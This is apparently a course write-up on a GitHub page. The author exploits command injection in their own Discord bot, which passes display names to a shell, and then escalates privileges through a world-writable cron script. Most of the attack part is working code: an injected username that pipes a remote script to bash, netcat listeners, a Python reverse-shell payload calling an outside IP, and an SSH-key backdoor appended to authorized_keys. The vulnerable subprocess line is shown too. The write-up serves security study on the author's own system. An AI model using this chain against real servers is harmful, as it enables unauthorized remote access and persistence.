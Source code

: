 # Exploiting Discord Bot Vulnerability to Gain Access to Game Server Files


---


## Introduction
I own a personal server that hosts both a game server and a Discord bot, which provides various functionalities to players, such as displaying game statistics, rolling dice, and many others.

The Discord bot is a program that continuously listens to messages in a designated chat channel and executes commands or functions depending on the message content.

During a Cybersecurity course, I discovered a vulnerability in the Discord bot’s Python code that allows remote code execution without requiring user interaction. Exploiting this flaw, combined with a misconfiguration in the file permissions of a script, I was able to gain unauthorized access to the game server’s files.




### Server Enviroment
The game server and the Discord bot are running under two different system users to enforce a basic privilege separation:

- The Discord bot runs under `user-a`.
- The game server runs under `user-b`, which owns all the game files.


### Vulnerability
The Vulnerability is a line in the code of the funcion "dice" that permits code injection by changing the username of the Discord Accounts
```python
if message.content.startswith('!dice'):
    dice = random.randint(1,6)
    username = message.author.display_name
    subprocess.run(f'python3 ./logWriter.py {username} {dice}', shell=True)  #  < Vulnerable code
    await message.channel.send(f"{username}, hai estratto: {dice}")
```
Since the code is executed in a shell, inserting a ; in the username allows the shell to treat what follows as a separate command instead of passing it as a parameter to logWriter.py.


### Misconfiguration
In addition to the code injection vulnerability, the system also presented a misconfiguration related to file permissions. The `server_start.sh` script, which is executed at system startup via a crontab entry belonging to `user-b`, was located inside `user-a`'s home directory with permissions set to `rwxrwxrwx`, allowing any user on the system to modify it.

Since this script is executed by the game server process running under `user-b`, modifying its content and then restarting the server makes it possible to execute arbitrary code with `user-b`'s privileges, ultimately granting access to the game server files.


---



## Threat model
- Attacker has access to send messages in the Discord chat monitored by the bot.
- Attacker is aware of the injection vulnerability in the bot’s username handling.


---


## Attacker Setup
The Attacker uses 2 netcat processes, one listening on 8080, the other on 8081.

#### Nat Configuration
![Nat Configuration](images/Nat_Configuration.png)

### Server process 1

```
clear
while true; do
nc -l -p 8080 -w 1 < response.txt
done
```

### Server process 2

```
clear
nc -lvnp 8081
```

In the response.txt file there is the payload that the attacker wants to execute, wich is sent as a response to http get requests to `process 1`.

---

## Exploit

The desired payload can not always be injected directly through the username due to the 32-character limit (including spaces).
To work around this limitation, a remote listener was set up to serve the full payload.  
The exploit injects a command in the username that makes the bot fetch and execute code from a remote `response.txt` file.
The username used for this injection was:
```
;curl ip-attacker:8080 | bash;
```
---

## Execution

### 1)Reverse Shell

The file `response.txt` was created with the following content to establish a reverse shell:


```
HTTP/1.1 200 OK
Content-Type: text/plain
Content-Length: 197

python3 -c
'import socket,subprocess,os;
s=socket.socket();
s.connect(("79.40.232.212",8081));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);'
```
This Python command creates a reverse shell:

- It opens a socket connection to `79.40.232.212` on port `8081`.
- It redirects the socket file descriptor to stdin (`0`), stdout (`1`), and stderr (`2`), effectively binding the shell’s input and output to the network connection.
- It starts an interactive `/bin/sh` shell, allowing the attacker to execute commands remotely through the established connection.

### 2)Listeners
Two listener processes were set up on the attacker machine by running the corresponding server code to serve the malicious payload and receive the reverse shell connection.

### 3)Username
The Discord username was modified to include a shell injection payload due to the vulnerability in the bot’s input handling.
The username was set to:

`;curl ip-attacker:8080 | bash;`

### 4)Triggering the Vulnerability

With the username set, the attacker can trigger the exploit by sending the command `!dice` to the bot.

---

## Post-Exploitation
Once i obtained a reberse shell, and i was able to navigate inside the user-a folder, accessing all doscord bot's files, including user-b's script `server_start.sh`

![Nat Configuration](images/Initial_Access.png)

But i did not have access rights to user-b folder, containing the game server's files
![Nat Configuration](images/Screenshot_tree.png)

---

## Privilege Escalation

One way to gain access to the `/home/user-b` files was to modify the `server_start.sh` script. Since this script is executed by a cron job with the `@reboot` directive, any modification would be executed automatically on the next server reboot, running with `user-b`'s privileges.

However, relying on server restarts each time to execute arbitrary code would be impractical. Therefore, to gain persistent access as `user-b`, I injected a public SSH key into `user-b`'s `authorized_keys` file. This allowed me to establish an SSH connection directly as `user-b`, granting continuous access to the required files without waiting for server reboots.

First, I generated an SSH key pair using `ssh-keygen`:

```
$ ssh-keygen
Generating public/private ed25519 key pair.
Enter file in which to save the key (/home/attacker/.ssh/id_ed25519): /home/attacker/.ssh/innocent_key
Enter passphrase (empty for no passphrase):
Enter same passphrase again:
Your identification has been saved in /home/attacker/.ssh/innocent_key
Your public key has been saved in /home/attacker/.ssh/innocent_key.pub
The key fingerprint is:
SHA256:choqayqE6Q8JhczNELYiT7055YgjVS9IVNSOgiAP5XM attacker@attacker
The key's randomart image is:
+--[ED25519 256]--+
| *=o+.           |
|B+=+ ..          |
|*BBoEoo          |
|+=o+.B.          |
|+.+.= + S        |
|+o.. o =         |
|oo. . .          |
|..oo             |
|ooo.             |
+-[SHA256]--+
```
Then, I appended the generated public key to `user-b`'s `authorized_keys` by modifying `server_start.sh` as follows:

```
echo "echo 'ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIGzTv8FEFTYsiVF7rOQFz/+Zme92ZgdrAvfe0KavA4xA'
>> /home/user-b/.ssh/authorized_keys" >> server_start.sh
```  
This ensured that, upon the next reboot, the server would automatically add the attacker's public key, granting SSH access as `user-b`.

---

## Server Restart

After modifying the `server_start.sh` script to include the attacker’s public SSH key, it was necessary to wait for the server to restart in order to trigger the cron job execution.
Once the server rebooted, the injected code ran with `user-b` privileges, granting persistent access to the game server files and enabling SSH login as `user-b`.
